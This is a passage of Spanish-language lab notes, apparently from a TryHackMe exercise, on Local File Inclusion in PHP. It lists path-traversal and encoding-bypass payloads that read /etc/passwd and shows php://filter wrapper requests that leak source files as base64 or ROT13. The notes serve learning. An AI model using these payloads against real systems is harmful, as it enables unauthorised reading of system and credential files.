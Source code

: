    Ejemplo:

```http
http://example.thm.labs/page.php?file=/etc/passwd http://example.thm.labs/page.php?file=../../../../../../etc/passwd http://example.thm.labs/page.php?file=../../../../../../etc/passwd%00 http://example.thm.labs/page.php?file=....//....//....//....//etc/passwd http://example.thm.labs/page.php?file=%252e%252e%252fetc%252fpasswd
```

### Uso

La utilización de un ***LFI*** suele estar limitada por la configuración del servidor web. En caso de tratarse de una aplicación web *PHP*, se podría usar un ***PHP-supported Wrapper***. *PHP* provee varios métodos para la transmición de información.

#### *PHP filter*

El ***PHP filter wrapper*** se utilizar para leer el contenido *PHP* de la página actual. Esto generalmente no es posible ya que los archivos *PHP* suelen ejecutarse sin mostrar su contenido. Sin embargo, usando *filter* se puede obtener dichos archivos *php* en otro formato, por ej: `base64` o `ROT13`.

Ejemplo tratanto de leer `/etc/passwd` utilizando ***PHP filter wrapper***:

```http
http://example.thm.labs/page.php?file=php://filter/resource=/etc/passwd
```

1. Trato de leer `index.php` utilizando el *filter*. Esto no funcionará ya que el servidor tratará de ejecutar dicho código, para solucionarlo utilizo `base64` o `ROT13` como output.

   ```http
   http://example.thm.labs/page.php?file=filter/read=string.rot13/resource=/etc/passwd http://example.thm.labs/page.php?file=php://filter/convert.base64-encode/resource=/etc/passwd
   ```

2. El resultado en `base64` se vería de la siguiente manera:

   ```
   cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDox******Deleted
   ```

3. Para traducir esto se puede utilizar [Base64 Decode and Encode - Online](https://www.base64decode.org/).

#### *PHP DATA*

Se utiliza para incluir texto o información "encodeada" en `base64`. También se utiliza para incluir imágenes en la página actual.

Ejemplo encodeando `"AoC3 is fun!"` para luego incluirlo en la página usando ***wrapper data***:

```bash
echo "AoC3 is fun!" | base64 QW9DMyBpcyBmdW4hCg==
```

Para decodearlo sería:

```bash
echo "QW9DMyBpcyBmdW4hCg==" | base64 --decode AoC3 is fun!
```
